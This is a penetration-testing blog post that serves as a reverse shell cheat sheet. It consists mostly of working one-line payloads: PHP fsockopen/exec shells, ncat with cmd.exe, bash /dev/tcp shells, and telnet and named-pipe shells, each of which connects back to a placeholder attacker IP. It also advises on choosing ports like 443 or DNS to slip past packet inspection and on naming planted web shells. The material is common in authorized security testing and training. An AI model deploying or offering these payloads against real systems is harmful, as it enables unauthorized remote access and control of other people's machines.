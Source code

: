 ```yaml
---
layout: post
title:  "Reverse Shell Cheat Sheet"
date:   2017-01-17 20:56:00 -0600
categories: [lab, homelab, pentest, cheatsheet]
---
```


## Cause everyone posts one

If enumeration is the bread and butter of penetration testing, reverse shells are the cheesecake. Stolen usernames and passwords may be one of the most reliable ways to get into a system, but theres nothing like messing something up a bunch and then finally seeing that reverse shell prompt pop up. These are some quick and easy ones in different formats.

## First, some thoughts

Reverse shells are great, but you need to make sure they get to you. Way too many reverse shells and exploits code the exploit to send reverse shells back to port 4444. If you see this port active in a production environment and can't immediately recognize why, you need to figure it out. You may have been popped by someone who barely knows what they're doing which probably also means someone way worse is already in. 

If you're going to send yourself back a reverse shell, try ports that people should expect to see. Port 80 and 443 are great, but so is DNS. [This](http://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html) is an excellent write up of RCE found in Facebook that had to use outbound DNS to send results back to his listening machine. Amazing stuff. 

If you think it should work and it's not, tcpdump or wireshark your host (if you can) and see what's coming and going. If I'm trying to exploit a web app on port 80 to send back a remote shell, one tcpdump quickie I use is 

~~~
tcpdump -qtpni eth0/tap0/whatever0 host <VICTIMIP> and not port 80 
~~~

That watches traffic for anything coming back and gives you a condensed, simple output for it only on the interface you expect the attack to copme back through (tap0 if you're on a VPN, for example), listening only for the victim host so you don't see a bunch of other noise and excluding the port you know you're going to see traffic on. In this case, since I'm attacking port 80, I'm probably listening on port 443 with a netcat listener. You could specify port 443 only, but this wouldn't catch if you did something wrong in your exploit and are sending the exploit back to the wrong port (we all make mistakes). 


### But bind shells are easier!

And therein lies the problem. Bind shells are great, but they're irresponsible. If you can bind to the port, anyone else can. If you're part of a real engagement for a customer or doing something in house, you can't leave bind shells everywhere, it's like leaving windows open for burglars. If someone is already inside the client's network,  you've just made their job that much easier when your goal is the opposite. Use reverse shells, encrypt when possible, and clean up after yourself. Relatedly, if you're uploading a file to an externally available site like a web shell, don't name it admin.php or shell.php. Use a complex naming schema that can't be brute forced or ideally a tag that can be found repeatedly. Something like remotephone_j1er234.php is harder to brute force and way easier to track down for cleanup.  


## Let's begin!

Don't be lazy. You shouldn't be trying to get a shell back unless you have a good idea of what the underlying OS is. Each one of these can be adjusted and may need to be. It's possible you know you have a linux type OS, but what if bash is in /usr/bin/ instead of /bin/? Do some recon, know what you're working with, and, if you really have every reason to believe you should be getting a shell but you aren't, always assume you've done something wrong. It's usually the safe bet.  

### PHP

This is a very generic PHP reverse shell. It runs PHP inside of itself to send a connection back with /bin/sh

~~~
'<?php  echo shell_exec(php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3"); ?>'
~~~

Here are a lot of variations on a theme. Each one worked for something different (some didn't work at all, but might for you), and others are just interesting.

~~~
'<?php -r fsockopen("<ATTACKIP>",443); exec("/bin/sh -i <&3 >&3 2>&3"); ?>'
'<?php $s=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&4 >&4 2>&4");?>'
'<?php exec("/bin/sh | /bin/nc <ATTACKIP> 443");?>'
'<?php $sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&3 >&3 2>&3");?>'
'<?php set_time_limit (20);$sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&3 >&3 2>&3");?>'
'<?php $sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i >& /dev/tcp/<ATTACKIP>/443 0>&1");?>'
'<?php shell_exec("/bin/sh -i >& /dev/tcp/<ATTACKIP>/443 0>&1");?>'
~~~

No matter what's different with each one, every single one is calling a command shell, sending it over a network connection to the port you want. Every example is using port 443, so adjust that as you need to adjust it. Also, note that it's suspicious to send non-HTTPS traffic over 443, so keep that in mind if you're dealing with deep packet inspection or an attentive analyst. It might be more useful to use meterpreter reverse_https for something like that.

### Ncat and nc

Ncat and nc are great tools. You can do a ton with each one, but ncat is just a whole other level for what it allows you to accomplish. While nc is the traditional tool, ncat comes from the same people who produce nmap and includes tons more features including ssl support and the ability to restrict access! 

Of course, you'll have to work these into your exploit. To create a bind shell that only allows a specific IP to connect to it, use

~~~
ncat -lvp 4445 -e cmd.exe --allow <ATTACKIP> --ssl
~~~

To do this even more safely, use a reverse shell 

~~~
ncat -v <attackIP> 443 -e cmd.exe --ssl
~~~


### Non-netcat Shells

This one is really clunky, but it works when you just can't get anything else working. For this to work, you need two listeners and your shell will show up on the second one. It's a complete mess, but it works and it's just kind of nifty to see.

~~~
telnet <ATTACKIP> 443 | /bin/sh | telnet <ATTACKIP> 444
~~~

This one came from [this](https://twitter.com/webpentest/status/424165659518316544) tweet and it's interesting. 

~~~
/bin/bash -l > /dev/tcp/<ATTACKIP>/<ATTACKPORT> 0<&1 2>&1
~~~

Another interesting telnet shell

~~~
rm -f /tmp/p; mknod /tmp/p p && telnet <ATTACKIP> <ATTACKPORT> 0/tmp/p
~~~




#### Sources

"If I've seen so far, it's because I've stolen the shoulders of giants" or something. 

These are some great resources for some of the shells I've included above. Learn from others, modify it, and share!


[The one](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) everyone seems to link 

[Variations](https://highon.coffee/blog/reverse-shell-cheat-sheet/) on the theme.

[Oldy](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html) but goody
